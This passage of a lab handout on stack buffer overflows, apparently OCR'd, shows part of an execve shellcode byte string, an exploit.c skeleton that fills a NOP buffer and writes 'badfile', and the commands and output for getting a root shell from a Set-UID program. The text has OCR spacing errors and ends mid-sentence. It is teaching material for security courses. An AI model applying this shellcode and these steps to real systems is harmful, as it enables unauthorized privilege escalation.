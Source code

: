 ```
"\x53" /*Line 7: pushl %ebx */
"\x89\xe1" /*Line 8: movl %esp,%ecx */
"\x99" /*Line 9: cdq */
"\xb0\x0b" /*Line 10: movb $0x0b,%al */
"\xcd\x80" /*Line 11: int $0x80 */
;

void main(int argc, char **argv)
{
char buffer[517];
FILE *badfile;

```
/* Initialize buffer with 0x90 (NOP instruction) */
memset(&buffer, 0x90, 517);
```
```
/* You need to fill the buffer with appropriate contents here */
/* ... Put your code here ... */
```
/* Save the contents to the file "badfile" */
badfile = fopen("./badfile", "w");
fwrite(buffer, 517, 1, badfile);
fclose(badfile);
}
```

After you finish the above program, compile and run it. This will generate the contents forbadfile.
Then run the vulnerable programstack. If your exploit is implemented correctly, you should be able to
get a root shell:

Important: Please compile your vulnerable program first. Please note that the programexploit.c,
which generates thebadfile, can be compiled with the default StackGuard protection enabled. This is
because we are not going to overflow the buffer in this program. We will be overflowing the buffer in stack.c,
which is compiled with the StackGuard protection disabled.

```
$ gcc -o exploit exploit.c
$./exploit // create the badfile
$./stack // launch the attack by running the vulnerable program
# <---- Bingo! You’ve got a root shell!
```

It should be noted that although you have obtained the “#” prompt, your real user id is still yourself (the
effective user id is now root). You can check this by typing the following:

```
# id
uid=(500) euid=0(root)
```

Many commands will behave differently if they are executed asSet-UID rootprocesses, instead of
just asrootprocesses, because they recognize that the real user id is notroot. To solve this problem,
